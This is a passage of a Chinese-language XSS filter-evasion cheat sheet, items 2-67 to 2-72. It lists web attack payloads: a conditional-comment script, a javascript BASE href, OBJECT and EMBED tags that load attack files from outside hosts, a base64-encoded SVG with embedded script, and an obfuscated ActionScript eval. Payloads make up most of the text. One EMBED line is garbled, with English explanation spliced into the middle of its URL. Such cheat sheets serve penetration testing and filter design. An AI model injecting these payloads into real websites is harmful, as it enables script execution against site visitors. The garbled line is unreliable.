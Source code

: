 \`<!--[if gte IE 4]>

 <SCRIPT>alert('XSS');</SCRIPT>

<![endif]-->\`

### 2-67 BASE 标签（chrome 测试并不会弹出 alert）

在 IE 和安全模式下的 Netscape 8.1
有效。你需要使用//来注释下个字符，这样你就不会造 成 JavaScript
错误并且你的 XSS
标签可以被渲染。同样，这需要当前网站使用相对路径例如"images/image.jpg"来放置图像而不是绝对路径。如果路径以一个斜杠开头例如
"/images/image.jpg"你可以从攻击向量中移除一个斜杠(只有在两个斜杠时注释才会生效):

`<BASE HREF="javascript:alert('XSS');//">`

`（注意：<base> 标签为页面上的所有链接规定默认地址或默认目标。）`

### 2-68 OBJECT 标签（chrome 即可测试）

如果允许使用 OBJECT，你可以插入一个 xss 攻击变量来攻击用户，类似于
APPLET 标签。链接文件实际是含有你 XSS 攻击代码的 HTML 文件:

`<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>`

### 2-69 使用 EMBED 标签加载含有 XSS 的 FLASH 文件

下面有一个例子,如果你添加了属性 allowScriptAccess="never"以及
allownetworking="internal"则可以 减小风险(感谢 Jonathan Vanasco
提供的信息):

`<EMBED SRC="http://ha.ckers.Using an EMBED tag you can embed a Flash movie that contains XSS. Click here for a demo. If you add the attributes allowScriptAccess="never" and allownetworking="internal" it can mitigate this risk (thank you to Jonathan Vanasco for the info).: org/xss.swf" AllowScriptAccess="always"></EMBED>`

### 2-70 使用 EMBED SVG 包含攻击向量（chrome 即可测试）

该示例只在 FireFox 下有效，但是比上面的攻击向量在 FireFox
下好，因为不需要用户安装 或启用 FLASH。感谢 nEUrOO 提供:

`<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>`

### 2-71 在 FLASH 中使用 ActionScript 混淆 XSS 攻击向量(暂时未测试)

`a="get"; b="URL(\""; c="javascript:"; d="alert('XSS');\")"; eval(a+b+c+d);`

### 2-72 CDATA 混淆的 XML 数据岛（只在 IE 和使用 IE 渲染模式的 Netscape 8.1 下有效）

这个 XSS 攻击只在 IE 和使用 IE 渲染模式的 Netscape 8.1 下有效-攻击向量由
Sec Consult 在审计 Yahoo 时发现
